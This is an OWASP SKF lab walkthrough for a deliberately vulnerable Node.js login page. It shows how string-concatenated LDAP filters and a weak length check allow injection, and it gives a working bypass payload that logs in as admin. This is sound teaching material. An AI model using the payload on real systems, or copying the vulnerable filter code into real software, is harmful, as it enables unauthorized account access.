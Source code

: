 # Ldap Injection - harder

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-ldap-injection-harder
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-ldap-injection-harder
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it’s possible to modify LDAP statements using a local proxy. This could result in the execution of arbitrary commands such as granting permissions to unauthorized queries, and content modification inside the LDAP tree. The same advanced exploitation techniques available in SQL Injection can be similarly applied in LDAP Injection.

Let's open the app.

![](../../.gitbook/assets/nodejs/Ldap-harder/1.png)

Trying to loggin with a random username and password.

![](../../.gitbook/assets/nodejs/Ldap-harder/2.png)

The application architecture that supports LDAP includes both server-side and client-side components. The LDAP queries submitted to the server are known as LDAP search filters, which are constructed using prefix notation. Below is an example of an LDAP search filter:

```text
find("(&(cn=" + username +")(userPassword=" + pass +"))")
```

This prefix filter notation instructs the query to find an LDAP node with the given username and password.

## Exploitation

Let's check the app.js file.

```javascript
const options = {
  scope: "sub",
  filter: "(&(cn=" + username + ")(sn=" + password + "))",
};
```

We can see that the filter is constructed by concatenating the username and password directly into the filter without proper sanitization. If we replace the username and password with a special character we can bypass authentication controls. Using \* as the username and password will result in a successful login.

```javascript
filter: "(&(cn=" * ")(sn=" * "))";
```

![](../../.gitbook/assets/nodejs/Ldap-harder/3.png)

No luck, maybe this application is sanitizing the user input somehow, let's check the code again.

```javascript
app.post("/login", upload.none(), (req, res) => {
  const secret = req.body.secret_answer;
  secret.length < 2
    ? res.render("index", { result: "Invalid username or password" })
    : authenticate(req, res);
});
```

The approach here to avoid LdaP injection was to check for the length of the user input. If the length is less than 2, the user input is invalid.
Unfortunately for the developer, this approach is not very secure. Special characters other than "\*" can also be used to create malicious queries.

```text
username = admin)(!(&(1=0
password = q))
```

![](../../.gitbook/assets/nodejs/Ldap-harder/4.png)

We successfully logged in as the Admin.

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/LDAP_Injection" %}

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/LDAP_Injection_Prevention_Cheat_Sheet.html" %}

{% embed url="https://www.synopsys.com/glossary/what-is-ldap-injection.html" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md" %}

